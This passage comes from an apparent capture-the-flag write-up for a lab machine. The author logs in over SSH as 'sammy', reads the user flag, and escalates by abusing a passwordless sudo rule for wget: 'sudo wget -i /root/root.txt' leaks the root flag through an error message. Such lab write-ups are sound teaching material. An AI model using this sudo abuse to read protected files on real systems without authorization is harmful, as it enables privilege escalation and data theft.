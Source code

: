 Awesome.. finally got it. Now let's `ssh` in as `sammy`.

```
$ ssh sammy@10.10.10.76 -p 22022 -oKexAlgorithms=+diffie-hellman-group1-sha1
Password:
Last login: Tue Sep 11 01:13:56 2018 from 10.10.15.15
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ ls
Desktop  Documents  Downloads  Public  test.sh
sammy@sunday:~$ cat Desktop/user.txt
a3d9498027ca5187ba1793943ee8a598
```

### OWN SYSTEM

Something else interesting I discovered after logging in as `sammy`, was that running
our Linux Enum script again showed that `sammy` has different `sudo` abilities than
`sunny`..

```
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

Looking up the `manpage` for `wget`, we find an interesting option that we could
perhaps abuse..

```
       -i file
       --input-file=file
           Read URLs from a local or external file.  If - is specified as file,
           URLs are read from the standard input.  (Use ./- to read from a file
           literally named -.)
```

What if we tried to read `/root/root.txt` by passing it in as the parameter to `-i`?
The command would fail since it wouldn't make sense to `wget`, but highly likely the
error message would dump the contents.

```
$ sudo wget -i /root/root.txt
/root/root.txt: Invalid URL fb40fab61d99d37536daeec0d97af9b8: Unsupported scheme
No URLs found in /root/root.txt.
```

Weeeeeee~~~
